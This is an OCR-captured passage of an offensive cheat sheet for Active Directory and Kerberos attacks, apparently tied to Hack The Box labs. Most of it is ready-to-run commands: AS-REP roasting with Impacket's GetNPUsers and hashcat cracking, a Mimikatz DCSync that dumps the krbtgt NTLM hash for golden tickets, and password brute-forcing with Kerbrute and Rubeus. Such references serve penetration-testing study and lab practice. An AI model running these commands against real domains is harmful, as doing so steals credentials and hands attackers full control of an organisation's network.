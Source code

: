    * Check with the following command:

    ```python
    Get-NPUsers.py LICORDEBELLOTA.HTB/Kaorz -dc-ip <IP> -no-pass

    # You will get a TGT hash. Save the hash in a file and crack the hash

    hashcat -m 18200 hash rockyou.txt
    ```



## DCSync Attack with MimiKatz → Kerberos Service Account → Golden Tickets

* An extremely powerful attack.

```python
.\\mimikatz.exe

mimikatz # lsadump::dcsync /domain:htb.local /user:krbtgt

Credentials:
Hash NTLM: <Hash_Here>
```

## Kerberos Cheatsheet

### Bruteforcing

Kerbrute.py:

```python
kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```

Rubeus:

```python
# List of users
.\\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# Check passwords for all users in current domain
.\\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```

### AS-REPRoasting

Impacket (GetNPUsers.py):

```python
# check ASREPRoast for all domain users (credentials required)
GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```
